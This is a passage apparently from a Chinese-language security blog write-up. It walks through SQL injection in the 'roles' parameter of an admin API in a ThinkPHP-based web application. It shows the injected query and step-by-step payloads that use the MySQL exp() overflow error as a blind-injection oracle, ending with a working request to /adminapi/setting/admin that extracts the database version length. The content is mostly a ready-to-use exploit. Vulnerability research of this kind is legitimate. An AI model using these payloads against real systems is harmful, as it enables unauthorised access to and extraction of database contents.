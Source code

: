   

```
SELECT * 
FROM 
`eb_system_admin` 
WHERE
(CONCAT(',',roles,',') LIKE '%,aaaaaaaa,%')
AND 
1 LIKE 1
AND
(CONCAT(',',roles,',') LIKE '%,aaaaaaaa,%')  
AND
`is_del` = :ThinkBind_1_114815451_  
AND
`level` = :ThinkBind_2_293448294_ LIMIT 0,20 
```

  
再把payload带入发包。  
  
![1747185210_6823ee3a25197131646a5.jpg!small?1747185210850](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXB4gLbciaqUMetw3YufLSibBiaXZyxbVxicOV0fKTOAibKrCgibZazW94VhroyibXvoiaYaVtAafhl4sW5LA/640?wx_fmt=jpeg&from=appmsg "")  
  
然后进一步修改payload，利用exp()函数特性进行SQL注入  
  

```
aaaaaaaa,%')+AND+1+LIKE+1+AND+(CONCAT(',',roles,',')+LIKE+'%,aaaaaaaa
```

  
  
-->  
  

```
aaaaaaaa,%')+AND+1+LIKE+exp(709)+AND+(CONCAT(',',roles,',')+LIKE+'%,aaaaaaaa
```

  
无报错  
  
![1747185226_6823ee4a6dc9be6406586.jpg!small?1747185227325](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXB4gLbciaqUMetw3YufLSibBVYSZB5oficibicwpzcXTjZtK1h0kpib8CeNjMXGiboHeNicBfxBuSZcHWPLQ/640?wx_fmt=jpeg&from=appmsg "")  
  
-->  
  

```
aaaaaaaa,%')+AND+1+LIKE+exp(710)+AND+(CONCAT(',',roles,',')+LIKE+'%,aaaaaaaa
```

  
报错  
  
![1747185240_6823ee58dec64124e89eb.jpg!small?1747185242209](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXB4gLbciaqUMetw3YufLSibBTCKzdZ8eZrVTu9I0vYic0AliaPy40ia5IKz7ShY3dAWurKAjKWBkzLKBw/640?wx_fmt=jpeg&from=appmsg "")  
  
这是因为在mysql中exp()函数的参数值大于709时会抛出一个溢出异常。  
  
根据此特性构造payload  
  

```
/adminapi/setting/admin?roles=aaaaaaaa,%')+AND+1+LIKE+exp(999-length(version()))+AND+(CONCAT(',',roles,',')+LIKE+'%,aaaaaaaa
```
